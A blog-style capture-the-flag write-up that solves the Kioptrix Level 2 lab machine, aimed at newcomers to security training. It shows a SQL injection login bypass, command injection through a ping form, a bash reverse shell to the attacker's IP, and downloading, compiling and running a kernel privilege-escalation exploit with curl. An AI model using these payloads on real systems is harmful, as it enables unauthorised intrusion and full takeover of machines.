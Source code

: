 ```yaml
---
layout: post
title: "Kioptrix 2 writeup"
subtitle: "~ Walkthrough of Kioptrix 2 machine ~"
date: 2017-10-04
author: V3ded
category: CTF
tags: blog ctf pentesting 
finished: true
---
```


## Intro
Hey guys, in this post I'll try and show you how to solve Level 2 Kioptrix machine. This is a first blog and there is heavy ongoing experimentation with Jekyll markup, so expect some aesthetical errors and uneven parts or padding.
Without further a do, let's start. 

# Scanning, enumeration and exploitation
Run netdiscover to find the IP of our needed machine:

```console
root@EdgeOfNight:~# netdiscover 

 Currently scanning: 192.168.45.0/16   |   Screen View: Unique Hosts           
                                                                               
 9 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 540               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.0.1       [REDACTED]          2      120  Compal Broadband Networks, I
 192.168.0.54      [REDACTED]          2      120  AzureWave Technology Inc.   
 192.168.0.87      [REDACTED]          1      60  Kaonmedia CO., LTD.         
 192.168.0.115     [REDACTED]          1      60  PCS Systemtechnik GmbH      
 192.168.0.234     [REDACTED]          1      60  Apple, Inc.                 
 192.168.0.53      [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
 192.168.0.101     [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
```

By digging around a bit I've found out that Kioptrix has been assined an IP of **192.168.0.115** !

As always it's important to find as much information about our target as possible and therefore I decided to run an nmap Scan.

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.0.115
Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-03 21:26 BST
Nmap scan report for 192.168.0.115
Host is up (0.00020s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            915/udp  status
|_  100024  1            918/tcp  status
443/tcp  open  ssl/https?
|_ssl-date: 2017-10-04T00:27:31+00:00; +4h00m02s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:81:47:B7 (Oracle VirtualBox virtual NIC)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop

Host script results:
|_clock-skew: mean: 4h00m01s, deviation: 0s, median: 4h00m01s

TRACEROUTE
HOP RTT     ADDRESS
1   0.20 ms 192.168.0.115

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.00 seconds
```

We get hits on different ports such as 22 [SSH], 80 [HTTP], 111 [RPC bind], 3306 [MYSQL] and more.  Because our target is running an HTTP web server we put the IP in a browser which results in this page:

<img src="/img/blog/IMG_1797.jpg">

This seems like a custom, lazy-made login function. Normally I wouldn't try and break login pages & their authentication in the first stage of enumeration, but because of the cheap look, an attempt for [SQL injection](https://www.w3schools.com/sql/sql_injection.asp) won't hurt. And indeed, a simple `' or 1=1#` did the trick!  Login has been successfully bypassed and we are presented with yet another challenge!  

<img src="/img/blog/IMG_1798.JPG">

From enough completed challenges and CTFs I immediately recognized a possible code injection vulnerability. Let me explain. Our current webapp prompts us to enter a machine to ping. If you think about what's happening inside our target, a command like this is parsed: `ping Entered_IP`. Seems harmless, right? Well, no it is not! A character like "semicolon" (;) or "OR (||) can be used to append a terminator to the preset ping command which changes a query from `ping ENTERED_IP` to  `ping ENTERED_IP; malicious input`. This effectively allows for code execution which makes us able to enter any command we like into our designated machine. 

<img src="img/blog/IMG_1799.JPG">

An attempt to estabilish a reverse shell with netcat was made, but as it appears, our target doesn't  have it. Luckily, there was another trick up my sleeve - `; bash -i >& /dev/tcp/192.168.0.213/4444 0>&1`. This is just another way of telling a computer to connect back to you. Of course before doing this we need to ready our netcat listener. `nc -lvp 4444`

 <img src="img/blog/IMG_1800.JPG">		
			 
`lvp - listen, verbose, port`

BOOM! 
If you are interested in doing more research in this topic I highly suggest this article: <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>


# Post Exploitation
Feels good once you get that shell, doesn't it? Non the less, we need to escalate our privileges and  pwn the server as a whole - not just as apache. Time to snoop around!

There are 2 users in the home directory (john and harold), however both of them have restriced home folders which we can not access. A search for uncommon misconfigurations such as writable passwd or shadow file yielded no result. After a while during my system enumeration I spotted that the kernel is pretty outdated. 
`uname -a` results in  `Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux`

Last compiled in 2007? This possibly opens up a privilege escalation vulnerability. After the finding, google search or exploitdb can be used for locating a corresponding kernel exploit.  
File of interest: <https://www.exploit-db.com/exploits/9545/>. Usually it's a good practice to avoid kernel exploitation as this opens up many dangers such as crashing or corrupting the machine. Always make sure there are no other options before trying kernel exploitation!

I decided to download the code onto my machine, host it on apache 2 webserver and make the victim download it via the previously gained shell. Here are the steps:

##### Our machine (where exploit.c is the file you downloaded):
```console
root@EdgeOfNight:~# mv /root/Downloads/privesc.c /var/www/html/ && /etc/init.d/apache2 start
[ ok ] Starting apache2 (via systemctl): apache2.service.
```
`mv - moves privesc.c file from Downloads to /var/www/html`

`/etc/init.d/apache2 start - starts apache web server on our machine which makes privesc.c file downloadable by accessing our IP address`

`&& - just executes the 2 commands after each other`


##### Kioptrix machine:
```console
cd /tmp && id && curl 192.168.0.213/exploit.c -o exploit.c 2> /dev/null && gcc exploit.c && ./a.out 
```

<img src="/img/blog/IMG_1801.JPG">

`cd /tmp - changes directory into tmp`

`id - prints user information before privilege escalation`

`curl IP/exploit.c - makes an HTTP request to our machine where /exploit.c is path to corresponding exploit, -o saves the output of the request, 2> is not needed - pipes the curl commands errors into "void"`

`gcc exploit.c - compiles our C code using GCC`

`./a.out - runs the compiled binary from GCC (every compiled file by this compiler has default output name of a.out)`

## <centre>Congratulations! The box has been rooted!</centre>

# Conclusion
A solid box with a lot of hidden knowledge for new people entering infosec community. There are always things to learn no matter how you many times you do them - same with this box. Personally I found this challenge quite easy, but enjoyed it non the less. My thanks goes to the creator for making such an awesome box.
-
Have any suggestions or feedback? Write it down below in the comments or send me a message on twitter!

~V3

